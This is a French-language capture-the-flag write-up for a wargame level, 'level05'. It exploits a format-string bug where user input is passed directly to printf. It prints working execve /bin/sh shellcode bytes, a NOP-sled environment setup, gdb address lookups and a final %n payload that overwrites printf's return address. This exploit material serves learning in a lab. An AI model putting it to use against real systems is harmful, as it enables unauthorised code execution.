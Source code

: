 # Writeup

Lorsque nous arrivons au level5, nous constatons qu'il n'y a pas de protection
sur le binaire. Nous le lancons une premiere fois, et nous voyons qu'un input
est attentu sur l'entree standard.

![Capture d’écran 2020-10-07 à 04 51 47](https://user-images.githubusercontent.com/25014717/95283461-2d013780-085c-11eb-9337-dceea4c3989a.png)

Apres avoir lance le binaire sous gdb, nous constatons que le programme est
relativement simple: apres avoir lu notre sur l'entree standard dans un buffer
de 100 char, le programme inspecte chaque caractere, et si celui ci est
majuscule, effectue un XOR de 0x20, ce qui a pour consequence de le transformer
en minuscule.Apres cette operation, le buffer est directement envoye a printf,
ce qui nous ouvre la porte pour un exploit de format string.


![Capture d’écran 2020-10-07 à 04 52 54](https://user-images.githubusercontent.com/25014717/95283459-2c68a100-085c-11eb-9394-4f2313cf9eb2.png)

![Capture d’écran 2020-10-07 à 04 52 25](https://user-images.githubusercontent.com/25014717/95283460-2c68a100-085c-11eb-94b8-ae0cb0ca8af8.png)


Nous avons deux contraintes: la premiere est quele buffer etant modifie avec des
XOR, nous ne pouvons pas y placer notre shellcode. La seconde est que le main
quitte le programme via un exit, et non par un return. Avec notre format string,
nous pouvons ecrire a loisir dans la memoire. Nous avons donc deux options: soit
modifer l'appel a exit dans la global offset table, soit manipuler la valeur
qu'utilisera le printf pour retourner de son appel et revenir au main. Dans les
deux cas, nous ferrons passer notre shellcode par l'environnement.



Dans un premier temps, pour avoir le decalage d'adresse de le plus minime
possible, nous chargeons notre shellcode dans l'environnement avec un nopsled.

> echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' /tmp/shellcode.bin 
>
> export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)

Nous determinons ensuite ou se situe notre chaine de caractere
dans la stack:

> 'print "aaaa " + "%08x " * 20' | ./level05

![Capture d’écran 2020-10-07 à 04 56 13](https://user-images.githubusercontent.com/25014717/95283457-2bd00a80-085c-11eb-9f63-62f2b896213f.png)



Notre adresse a ecrire se trouvera donc au 10eme element. Comme nous allons
ecrire une adresse, nombre assez eleve, nous choisisons d'ecrire en deux
fois. Nous utiliserons donc les positions 10 et 11, et passerons deux adresses
dans notre format string.

> '[Adresse Cible] + [Adresse cible + 2] + %[2 Premiers bytes - 8]x + "%10$n"
> \+ %[2 Derniers bytes - 2 Premiers bytes]x + "%11$n"

Pour recuperer l'adresse qui nous interesse, il nous suffit d'aller regarder le
retour de printf dans gdb

> (gdb) b *printf+50
> (gdb) x/a $esp

![Capture d’écran 2020-10-07 à 05 00 08](https://user-images.githubusercontent.com/25014717/95283450-296db080-085c-11eb-9db2-0c516ea163ab.png)

Nous recuperons notre adresse cible. Nous en profitons pour recuperer l'adresse
du milieu de notre sled:

> (gdb) x/12s *((char **) environ)

![Capture d’écran 2020-10-07 à 05 00 38](https://user-images.githubusercontent.com/25014717/95283451-2a9edd80-085c-11eb-9704-2ea3f375104b.png)


Le calcul a effectuer pour recuprer le millieu de notre nodsled est le suivant:

> & == ADRESSE
> [&SLEDCODE] + (([&VARIABLE SUIVANTE] - [&SLEDCODE]) / 2)

Nous prennons donc cette adresse, la separons en deux parties que nous calculons
selon la methode decrite plus haut.

Fort de tout ces elements, nous avons la commande finale:

> (python -c 'print "\xbc\xd5\xff\xff" + "\xbe\xd5\xff\xff" + "%55528x" + "%10$n" + "%9999x" + "%11$n"'; cat -) | ./level05

![Capture d’écran 2020-10-07 à 05 01 54](https://user-images.githubusercontent.com/25014717/95283456-2bd00a80-085c-11eb-9206-02cfb3bc133f.png)


![Capture d’écran 2020-10-07 à 05 02 07](https://user-images.githubusercontent.com/25014717/95283449-28d51a00-085c-11eb-95a7-f07523542d4f.png)
